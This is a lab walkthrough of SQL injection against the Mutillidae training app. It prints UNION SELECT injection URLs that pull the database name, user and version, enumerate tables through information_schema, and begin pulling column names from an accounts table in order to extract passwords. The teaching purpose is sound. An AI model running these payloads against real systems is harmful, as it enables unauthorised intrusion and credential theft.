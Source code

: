 http://192.168.181.198/mutillidae/index.php?page=user-info.php&username=viofer%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details

Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.181.198/mutillidae/index.php?page=user-info.php&username=viofer%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details

OUTPUT :
![Alt text](img/15.png)
The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

The url once executed will retrieve table names from the “owasp 10” database. ##Extracting sensitive data such as passwords

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.
